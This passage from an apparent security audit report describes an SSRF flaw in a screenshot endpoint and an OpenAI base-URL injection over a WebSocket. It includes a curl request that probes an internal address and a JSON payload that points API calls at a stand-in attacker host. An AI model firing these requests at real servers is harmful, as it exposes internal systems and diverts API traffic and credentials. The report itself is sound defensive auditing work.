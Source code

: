 **Vulnerability Rank:**
High

**Currently Implemented Mitigations:**
- No validation or sanitization is performed on the URL parameter before forwarding it.

**Missing Mitigations:**
- **Input Validation:** Enforce strict checks on the URL to ensure it is both well‑formed and points only to allowed external domains.
- **Domain Whitelisting:** Reject URLs that target internal IP ranges (such as `127.0.0.1` or `10.0.0.0/8`).

**Preconditions:**
- The endpoint is publicly accessible and accepts POST requests with arbitrary URL values.
- The external screenshot service does not validate the URL sufficiently.

**Source Code Analysis:**
- **File:** `backend/routes/screenshot.py`
  - The endpoint reads the `url` field from the incoming JSON payload and directly passes it as a parameter to the HTTP GET request call (`httpx.get("https://api.screenshotone.com/take", params=...)`).
  - No sanitization or verification is performed on the provided URL.

**Security Test Case:**
1. Craft a POST request with a malicious payload using a tool like curl or Postman:
   ```bash
   curl -X POST -H "Content-Type: application/json" -d '{"url": "http://127.0.0.1/admin", "apiKey": "dummy-value"}' http://<server-address>/api/screenshot
   ```
2. Check the response and any forwarded requests to verify that an internal URL is processed.
3. Confirm that the internal resource is exposed or probed, thereby validating the SSRF vector.

---

## Vulnerability Name: OpenAI Base URL Injection Vulnerability

**Description:**
In non‑production environments (when the `IS_PROD` flag is false), the code generation endpoint accepts an additional `openAiBaseURL` parameter in the WebSocket payload. This value is used directly to configure the OpenAI client, allowing an attacker to supply a malicious URL so that subsequent API calls are redirected to an attacker‑controlled server.

**Step‑by‑step trigger process:**
1. **Establish WebSocket Connection:** An attacker connects to `/generate-code` in non‑production mode using a WebSocket client.
2. **Inject Parameter:** The attacker includes an additional field in the JSON payload:
   ```json
   {
     "openAiBaseURL": "http://malicious.example.com/v1",
     "...": "other required parameters"
   }
   ```
3. **Configuration:** The helper function (e.g., `get_from_settings_dialog_or_env`) retrieves the user‑supplied `openAiBaseURL` and, because the application is not in production, passes this value directly to the OpenAI client constructor.
4. **Redirection:** All subsequent API calls intended for OpenAI are then directed to the attacker‑controlled URL.
